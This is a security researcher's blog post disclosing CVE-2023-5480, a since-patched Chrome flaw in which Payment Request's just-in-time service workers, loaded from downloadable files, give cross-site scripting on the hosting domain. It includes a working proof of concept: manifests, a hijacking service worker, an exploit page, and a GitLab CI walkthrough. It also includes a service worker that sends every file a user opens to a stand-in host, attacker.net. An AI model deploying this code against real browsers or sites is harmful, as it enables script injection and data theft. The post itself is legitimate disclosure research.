





+++
title = 'CVE-2023-5480: Chrome new XSS Vector'
date = 2024-01-25T20:00:00+03:00
draft = false
+++

# Chrome XSS

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.


# Preface
This article is dedicated to a vulnerability that I managed to discover in the Google Chrome browser at the end of last year, and it also recounts the story of its origin. The vulnerability persisted for an extended period and was addressed on October 31, 2023.

Google [evaluated](https://chromereleases.googleblog.com/2023/10/stable-channel-update-for-desktop_31.html) it at $16,000



This article will begin by describing a series of modern technologies used in web development, which is necessary for a complete understanding of the context surrounding the identified vulnerability. In case your interest is solely focused on the minimal demonstration (PoC), it is recommended to proceed directly to the "Vulnerability" section.

# Service Worker
I'll start by discussing one of my favorite technologies - Service Worker. This tool serves as a kind of proxy between your browser and the network, providing the ability to have full control over all outgoing requests from your website (and to it) on the internet, as well as managing caching.


Typical workflow is as follows:

1. From the page of our website, we register the service worker:
      
   **script.js**
   ```javascript
      if ('serviceWorker' in navigator) {
      navigator.serviceWorker.register('/service-worker.js')
        .then(function(registration) {
          console.log('Service Worker registration successful with scope: ', registration.scope);
        })
        .catch(function(error) {
        console.log('Service Worker registration failed: ', error);
      });
    }
    ```
2. Simple Service Worker example:
     ```javascript
    self.addEventListener('fetch', function(event) {
    event.respondWith(function_that_returnedResponse());
  });
  Therefore, with every request to our website, whether it's a request for an image or a fetch request from JavaScript, it will be routed through the Service Worker. The result of the request will be returned using the pre-registered handler.

This is indeed a powerful tool in web development (for curiosity, you can visit `chrome://inspect/#service-workers` and see many Service Workers currently in use in your browser).

However, along with its effectiveness, this technology also introduces a set of challenges. Many architectural decisions in web applications (and even in browsers) are sometimes made without considering this technology, leading to the emergence of vulnerabilities.

# ~~PWN~~ PWA
A Progressive Web Application (PWA) is a technology that allows emulating the installation of a website on a user's device. Its creation aimed to simplify the tasks of developers by providing the ability to bypass the need for developing native applications when possible.

PWAs are closely related to the concept of Service Worker, offering the possibility to implement functionality for so-called "offline modes." This enables users to maintain the functionality of the website even when not connected to the internet.

To register a PWA, the Web App Manifest standard was developed. In short, it is a specific JSON file, and a basic structure is outlined below:
```JSON
{
  "short_name": "My App",
  "name": "My App",
  "icons": [{
    "src": "https://www.myapp.example/icon.svg"
  }],
  "start_url": ".",
  "display": "standalone",
  "background_color": "#fff",
  "description": "Slonser example",

}
```

This file contains the essential data for the application. Upon the initial visit to a PWA, the page utilizes a script similar to the one shown in the previous section to load the Service Worker.

# Payments
If you read [specs](https://www.w3.org/TR/payment-request/) than you will see:
```
This specification describes an API that allows user agents (e.g., browsers) to act as an intermediary between three parties in a transaction:

The payee: the merchant that runs an online store, or other party that requests to be paid.
The payer: the party that makes a purchase at that online store, and who authenticates and authorizes payment as required.
The payment method: the means that the payer uses to pay the payee (e.g., a card payment or credit transfer). The payment method provider establishes the ecosystem to support that payment method.
```
From the information provided above, you might not have understood much, so let me illustrate with an example:



This also works in the desktop version of Chromium-based browsers:




What happens here is:

- The user visits a site that presents them with a bill.
- The site, using the Payments Request API, contacts an external resource.
- The user sees a popup window with the external resource.
- This resource processes the user's payment and returns the information about the transaction to the original resource.

In code, it looks something like this:
```javascript
function buildSupportedPaymentMethodData() {
  // Example supported payment methods:
  return [{ supportedMethods: "https://example.com/pay" }];
}

function buildShoppingCartDetails() {
  // Hardcoded for demo purposes:
  return {
    id: "order-123",
    displayItems: [
      {
        label: "Example item",
        amount: { currency: "USD", value: "1.00" },
      },
    ],
    total: {
      label: "Total",
      amount: { currency: "USD", value: "1.00" },
    },
  };
}

new PaymentRequest(buildSupportedPaymentMethodData(), {
  total: { label: "Stub", amount: { currency: "USD", value: "0.01" } },
})
  .canMakePayment()
  .then((result) => {
    if (result) {
      // Real payment request
      const request = new PaymentRequest(
        buildSupportedPaymentMethodData(),
        checkoutObject,
      );
      request.show().then((paymentResponse) => {
        // Here we would process the payment.
        paymentResponse.complete("success").then(() => {
          // Finish handling payment
        });
      });
    }
  });
```

So, from the client side, we:

- Create a PaymentRequest object.
- Pass the payment handler's URL and purchase details to it.
- Call the show method and handle the Promise with the result/error.

Now, what should the payment handler do?

1. Along the provided link, it should return the [Link](https://www.rfc-editor.org/rfc/rfc5988.txt) header.
   ```
   Link: <https://bobbucks.dev/pay/payment-manifest.json>; rel="payment-method-manifest"
   ``` 

   It's worth noting that according to RFC5988, rel="payment-method-manifest" is not present. It will only be processed in Payments API requests, and its parsing is isolated from the main implementation.
2. The client will follow the link provided earlier and interpret its content as a Payment Manifest, for instance:
   ```JSON
   {
     "default_applications": ["https://alicepay.com/pay/app/webappmanifest.json"],
     "supported_origins": [
       "https://bobpay.xyz",
       "https://alicepay.friendsofalice.example"
     ]
   }
   ```
   Here, default_applications points to the Web App Manifest that will be installed, and supported_origins indicates the supported domains accordingly.

# JIT
As mentioned earlier, the Payment App should utilize the Web App Manifest, initially created for simple PWAs.

However, web standards developers faced the challenge of establishing communication between the website and the payment application. A controversial decision was made to leverage Service Worker for this purpose. To achieve this, new event handlers were added to the existing concept of workers:
```javascript
self.addEventListener('paymentrequest', async e => {
    //...
});
```

However, a question arises here: during the initial invocation, the Payment App does not contain a Service Worker (as it is registered only after the first page load), which disrupts the logic.

This problem was addressed through another controversial decision - the introduction of Just-In-Time (JIT)-installed workers. For this, the Web App Manifest specification was extended. Now, if it is used for a Payments App, it must include the "serviceworker" field with the specified worker for registration:

```JSON
  "serviceworker": {
    "src": "/download/sw-slonser.js",
    "use_cache": false,
    "scope":"/download/"
  }
```
Therefore, it will download and install the Service Worker at the specified path before launching the Payment App.

# When did the vulnerability appear?
Payment Request was implemented in Chromium in April 2018. Initially, it was not possible to exploit the vulnerability that will be described later.

Reading the source code of Chromium, I came across the fact that the manifest request was actually implemented like this at that time:
```C++
  headers->GetNormalizedHeader("link", &link_header);
  if (link_header.empty()) {
    // Fallback to HTTP GET when HTTP HEAD response does not contain a Link
    // header.
    FallbackToDownloadingResponseBody(final_url, std::move(download));
    return;
  }
```

So, the logic of the request followed this algorithm:

- First, it checks the Link header using rel="pay-method-manifest".
- If it is present, we load this content, replacing the specified URL.
- Otherwise, we simply use the content of the specified URL.
  
Indeed, a brief investigation revealed that on December 18, 2019, an issue with the Payment Request implementation was submitted to Chromium:

> the spec (https://w3c.github.io/payment-method-manifest/#accessing) requires that besides looking for the "Link", the direct access over URL is also allowed - "The machine-readable payment method manifest might be found either directly at the payment method identifier URL....".

In other words, the person pointed out that according to standards, we can transmit the payment-manifest both through a link and through the Link Header simultaneously.

The Chromium security team was involved in this ticket, approving the changes, and after a year, in March 2020, the fix became available in the stable branch of Chrome/Chromium.

# Vulnerability
The vulnerability became possible due to the change described in the previous point.

In fact, we have a unique situation where the vulnerability arises only when strictly adhering to web standards. This is because an important aspect was not taken into account during its development.

Many websites implement functionality for downloading user files, i.e., we have functionality like:
```
https://example.com/download?file=filename
https://example.com/download/filename
...
```
Such functionality should not pose direct security risks, because the Header is set:
```
Content-Disposition: attachment
```

Thus, the transmitted file will be loaded directly, preventing the possibility of XSS class attacks. This is because it is impossible to deliver an HTML code file to the user for rendering.

Considering that the Payments API started considering the file from the request body, let's just upload files to the target resource:
payment-manifest:
```JSON
{
    "default_applications": ["https://example.com/download/manifest.js"],
    "supported_origins": ["https://attacker.net"]
  }
```
manifest.js:
```JSON
{
    "name": "PWNED",
    "short_name": "PWNED",
    "icons": [{
        "src": "/download/logo.jpg",
        "sizes": "49x49",
        "type": "image/jpeg"
    }],
    "serviceworker": {
      "src": "/download/sw-slonser.js",
      "use_cache": false,
      "scope":"/download/"
    },
    "start_url":"/download/index.html"
}
```
logo.jpg:
```
* JPEG *
```

At first glance, it may seem not too useful, as why would we process responses coming from Payments. But here, it's worth recalling how the communication between our site and the Payment App is implemented - through Service Workers.

We can specify a Service Worker in Payments, as I mentioned earlier, it's just a regular Service Worker, with additional events provided for it. Therefore, nothing prevents us from using the standard capabilities of the Service Worker.

sw.slonser.js
```javascript
self.addEventListener("fetch", (event) => {
    console.log(`Handling fetch event for ${event.request.url}`);
    let blob = new Blob(["<script>alert('pwned by Slonser')</script>"],{type:"text/html"});
    event.respondWith(new Response(blob));
  });
```
This script intercepts all network requests and responds with HTML:
```html
<script>alert('pwned by Slonser')</script>
```
After this, the attacker just needs to redirect the victim to their domain, where the following code is hosted:

attack.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Vsevolod Kokorin (Slonser) of Solidlab</title>
</head>
<body>
    <button onclick="exploit()">EXPLOIT</button>
    <script>
        function exploit(){
            const BASE = "https://example.com/download" // PATH TO DOWNLOAD SCOPE
            const fileName = 'payment-manifest.js' // Name of payment manifest
            const request = new PaymentRequest(
                [{ supportedMethods: `${BASE}/${fileName}` }],
                {
                    id: "order-123",
                    total: {
                    label: "Total",
                    amount: { currency: "USD", value: "1.00" },
                    }
                }
            );

            request.show().then((paymentResponse) => {
                    paymentResponse.complete("success").then(() => {
                });
            }).catch((e) => {
                    document.location = `${BASE}/C4T BuT S4D`;
            });
        }
    </script>
</body>
</html>
```

Upon the completion of the execution of this script, the victim will be redirected to the target domain, where the registered Service Worker will intercept the request (because after JIT installation, they don't get uninstalled). Consequently, we obtain XSS on the specified domain.

The video I submitted to Google (where I achieved XSS on a ngrok subdomain through my page on Yandex S3):


# Example of a real attack
During a brief investigation, I immediately discovered instances of this attack being exploited on many popular resources. I won't specify them due to ethical considerations (as millions of users have not yet updated their Chrome-based browsers). However, I found a good example to demonstrate this attack and its limitations - Gitlab. Currently, it is impossible to reproduce the attack on the latest version of the service, but it was exploitable a year ago.

As an example, I will demonstrate the exploitation of XSS using this bug on Gitlab from a year ago:
- Create a GitLab repository with CI/CD runners (or use an existing one).
  
  
- Add your CI configuration to it, which creates an artifact with the necessary files
  
  

  In it, I download an archive from the resource under my control and unpack the data.

- Verify that the data has indeed become accessible on the artifact page.
  
  

- Now the data files can be downloaded directly using links like:
  ```
  https://5604-185-219-81-55.ngrok-free.app/root/test/-/jobs/13/artifacts/raw/payment-manifest.js
  ```
  Where `test` is the repository identifier, and `13` is the artifact number

- Insert this link into the exploit page provided in the previous section and place it on the resource under our control.
  
  

- We obtain the execution of our JavaScript code on the domain with our GitLab.
  
  

Currently, this doesn't work because GitLab returns artifacts with `Content-Type: text/plain`, because `Content-Type: text/javascript`  leading to a bypass of the CSP rule `script-src: self`. The registration of the Service Worker checks the Content-Type for valid JS Mime-Type.

Therefore, any resource that implements file upload/download functionality without rewriting the regular Mime-Type of the file is vulnerable.
# S3 buckets

Another good example is S3 buckets.

Amazon S3 (Simple Storage Service) is a cloud storage service provided by Amazon Web Services (AWS). S3 buckets are containers for storing files or data objects within Amazon S3.

By default, S3 buckets expose the Mime-Type based on the file extension during download.
In general, Register a service worker on a domain with an S3 bucket:
```javascript
    async function handleRequest(event) {
      const attacker_url  = "https://attacker.net?e=";
      
      let response = await fetch(event.request.url)

      let response_copy = response.clone();
      
      let sniffed_data = {url: event.request.url, data: await response.text()}

      fetch(
          attacker_url,
          {
              body: JSON.stringify(sniffed_data), 
              mode: 'no-cors', 
              method: 'POST'
          }
      )
    
      return new Response(await response_copy.blob(),{status:200})
    }
    

  self.addEventListener("fetch",async (event) => {
      event.respondWith(handleRequest(event));    
  });
  ```

This Service Worker will duplicate all files opened by the user to the attacker's server.

# Communicating with Google
Many people will be interested in the chronology of my communication with Google, therefore:
- October 13, 2023, I discovered this flaw
- October 14, 2023 (Saturday), I sent a message describing a flaw in Chrome VRP
- On October 17, 2023, Google employees began investigations related to the problem
- On October 18, the problem was completely resolved, the flaw was assigned a danger level of High
- A patch was released on October 19
- On October 26, Google valued my discovery at $16,000 ($15,000 for the vulnerability itself and $1,000 for identifying the version in which the vulnerability appeared)
- On October 31, Chrome 119 was released, in which the flaw was fixed. It was assigned the ID **CVE-2023-5480**
  

I think that the Chromium security people acted very quickly. They also gave me fair compensation. Thanks to them for this.
# Results
Several conclusions can be drawn from this story:
- Even at the level of web standards, errors can exist
- Modern browsers implement many experimental/unpopular Web APIs
- Open Source doesn't help. This flaw was in the public domain for 3 years, but they could not fix it. At the same time, it is quite simple to use (Unlike other bugs in Chromium, which are often binary)
- The vulnerability would not have arisen if the developers had not added new functionality to ready-made concepts.